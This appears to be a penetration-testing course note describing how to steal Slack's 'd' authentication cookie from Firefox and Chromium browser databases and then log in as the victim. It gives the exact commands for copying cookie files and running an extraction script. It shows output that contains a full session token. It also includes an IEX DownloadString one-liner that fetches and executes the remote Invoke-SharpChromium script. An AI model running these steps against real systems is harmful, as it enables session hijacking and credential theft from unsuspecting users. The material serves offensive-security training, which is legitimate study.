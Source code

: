 # Abusing Cookies to Get Access to IM Clients

### <mark style="color:red;">Abusing Cookies to Get Access to IM Clients</mark>

[Abusing Slack for Offensive Operations](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282) and [Phishing for Slack-tokens](https://thomfre.dev/post/2021/phishing-for-slack-tokens/).&#x20;

{% hint style="info" %}
[SlackExtract](https://github.com/clr2of8/SlackExtract) released in 2018 which was able to extract `Slack` messages. Their research discusses the cookie named `d`, which `Slack` uses to store the user's authentication token. If we can get our hands on that cookie, we will be able to authenticate as the user. Instead of using the tool, we will attempt to obtain the cookie from Firefox or a Chromium-based browser and authenticate as the user.
{% endhint %}

***

<mark style="color:green;">**Copy Firefox Cookies Database**</mark>

```powershell-session
PS C:\htb> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

<mark style="color:green;">**Extract Slack Cookie from Firefox Cookies Database**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

(201, '', 'd', 'xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSCedRQHi%2FldpLjiPQoz0OXAwS0%2FyqK5S8bw2Hz%2FlW1AbZQ%2Fz1zCBro6JA1sCdyBv7I3GSe1q5lZvDLBuUHb86C%2Bg067lGIW3e1XEm6J5Z23wmRjSmW9VERfce5KyGw%3D%3D', '.slack.com', '/', 1974391707, 1659379143849000, 1658439420528000, 1, 1, 0, 1, 1, 2)
```
{% endcode %}

&#x20;[Cookie-Editor](https://cookie-editor.cgagnier.ca/)

<figure><img src="../../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

***

<mark style="color:green;">**Cookie Extraction from Chromium-based Browsers**</mark>

{% hint style="danger" %}
The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.
{% endhint %}

[SharpChromium](https://github.com/djhohnstein/SharpChromium) connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

<mark style="color:green;">**PowerShell Script - Invoke-SharpChromium**</mark>

{% code fullWidth="true" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com"
```
{% endcode %}

We got an error because the cookie file path that contains the database is hardcoded in [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), and the current version of Chrome uses a different location.

<mark style="color:green;">**Copy Cookies to SharpChromium Expected Location**</mark>

{% code fullWidth="true" %}
```powershell-session
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```
{% endcode %}

We can now use Invoke-SharpChromium again to get a list of cookies in JSON format.

<mark style="color:green;">**Invoke-SharpChromium Cookies Extraction**</mark>

{% code fullWidth="true" %}
```powershell-session
Invoke-SharpChromium -Command "cookies slack.com"
```
{% endcode %}
